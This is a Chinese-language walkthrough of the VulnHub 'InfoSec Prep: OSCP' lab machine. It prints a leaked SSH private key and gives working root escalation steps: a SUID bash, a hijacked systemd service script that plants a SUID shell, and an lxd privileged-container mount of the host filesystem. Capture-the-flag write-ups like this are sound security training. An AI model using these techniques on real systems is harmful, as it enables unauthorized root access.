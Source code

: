 # InfoSec Prep: OSCP

2024-5-18 https://www.vulnhub.com/entry/infosec-prep-oscp,508/

difficulty: easy

## IP

192.168.5.21

## Scan

Open Port -> 22,80,33060

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 91ba0dd43905e31355578f1b4690dbe4 (RSA)
|   256 0f35d1a131f2f6aa75e81701e71ed1d5 (ECDSA)
|_  256 aff153ea7b4dd7fad8de0df228fc86d7 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/secret.txt
|_http-title: OSCP Voucher &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.4.2
33060/tcp open  mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000
```

80 web 页面上是一个 wordpress 搭建的网站，目录扫描，看看有什么内容：

```
http://192.168.5.21/index.php            (Status: 301) [Size: 0] [--> http://192.168.5.21/]
http://192.168.5.21/wp-content           (Status: 301) [Size: 317] [--> http://192.168.5.21/wp-content/]
http://192.168.5.21/wp-login.php         (Status: 200) [Size: 4795]
http://192.168.5.21/license.txt          (Status: 200) [Size: 19915]
http://192.168.5.21/wp-includes          (Status: 301) [Size: 318] [--> http://192.168.5.21/wp-includes/]
http://192.168.5.21/javascript           (Status: 301) [Size: 317] [--> http://192.168.5.21/javascript/]
http://192.168.5.21/readme.html          (Status: 200) [Size: 7278]
http://192.168.5.21/robots.txt           (Status: 200) [Size: 36]
http://192.168.5.21/wp-trackback.php     (Status: 200) [Size: 135]
http://192.168.5.21/secret.txt           (Status: 200) [Size: 3502]
http://192.168.5.21/wp-admin             (Status: 301) [Size: 315] [--> http://192.168.5.21/wp-admin/]
http://192.168.5.21/xmlrpc.php           (Status: 405) [Size: 42]
http://192.168.5.21/wp-signup.php        (Status: 302) [Size: 0] [--> http://192.168.5.21/wp-login.php?action=register]
```

/robots.txt 提示：Disallow: /secret.txt

http://192.168.5.21/secret.txt 是一个 base64 编码，进行解码，是一个 rsa 私钥：

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
8nfK2oDc6LfrDmjQAAAAlvc2NwQG9zY3A=
-----END OPENSSH PRIVATE KEY-----
```

现在需要找到用户名，根据网站首页的提示：Oh yea! Almost forgot the only user on this box is “oscp”. 或者对上面的私钥密文再次进行 base64 解码，在最后就能看到用户名信息：oscp@oscp

现在我们使用 oscp 用户进行登陆。

进行权限升级，发现 /usr/bin/bash 设置了 suid:

```
-bash-5.0$ ls -al /usr/bin/bash
-rwsr-sr-x 1 root root 1183448 Feb 25  2020 /usr/bin/bash
-bash-5.0$ /usr/bin/bash -p
bash-5.0# id
uid=1000(oscp) gid=1000(oscp) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),1000(oscp)
bash-5.0# cd /root
bash-5.0# ls
fix-wordpress  flag.txt  snap
bash-5.0# cat flag.txt
d73b04b0e696b0945283defa3eee4538
```

第 2 种获得 root 权限的方式：看到 oscp 目录中有一个 ip 文件，可能是在其他地方调用的，让我们查看/etc/crontab 中没有看到，/etc/cron.d 中也没有发现，看看 service 中是否有：/etc/systemd/system,找到了一个服务 ip-update.service：

```
[Unit]
Description=Write current ip addr to /etc/issue

[Service]
Type=oneshot
RemainAfterExit=true
ExecStart=/home/oscp/ip

[Install]
WantedBy=multi-user.target
```

知道这个任务调用了 oscp 目录中的 ip 程序，所以我们可以进行替换：

```
mv ip ip.bak
touch ip
chmod +x ip

-bash-5.0$ cat ip
#!/bin/sh
cp /bin/bash /home/oscp/oscpbash
chmod +xs /home/oscp/oscpbash
```

然后将服务器重启，oscp 目录就有了 oscpbash suid 程序，执行 ./oscpbash -p 就能获得 root 权限。

第 3 种获得 root 权限的方式：看到 oscp 用户数据 lxd 用户组，可以用下面这个链接中的方法进行利用：https://www.hackingarticles.in/lxd-privilege-escalation/

访问 https://github.com/saghul/lxd-alpine-builder，将 alpine-v3.13-x86_64-20210218_0139.tar.gz 下载到目标机器 /tmp 目录中。

找到 lxc 的文件位置：

```
-bash-5.0$ find / -name lxc 2>/dev/null

/snap/lxd/16100/bin/lxc
/snap/lxd/16100/commands/lxc
/snap/lxd/16100/lxc
/snap/lxd/16044/bin/lxc
/snap/lxd/16044/commands/lxc
/snap/lxd/16044/lxc
/snap/bin/lxc
/usr/share/bash-completion/completions/lxc
```

执行命令 /snap/bin/lxc ，导入镜像：

```
/snap/bin/lxc image import /tmp/alpine-v3.13-x86_64-20210218_0139.tar.gz --alias lxcimage

/snap/bin/lxc image list

/snap/bin/lxc init lxcimage ignite -c security.privileged=true  # 这句话执行时会报错，提示先创建pool，就按照下面代码执行

/snap/bin/lxc storage create pool dir
/snap/bin/lxc profile device add default root disk path=/ pool=pool
/snap/bin/lxc init lxcimage ignite -c security.privileged=true
/snap/bin/lxc config device add ignite trenches disk source=/ path=/mnt/root recursive=true
/snap/bin/lxc start ignite
/snap/bin/lxc exec ignite /bin/sh
```

执行完毕后，/mnt/root 目录中将挂载宿主机的全部文件，我们可以直接进入/mnt/root/root 目录查看 flag 信息。
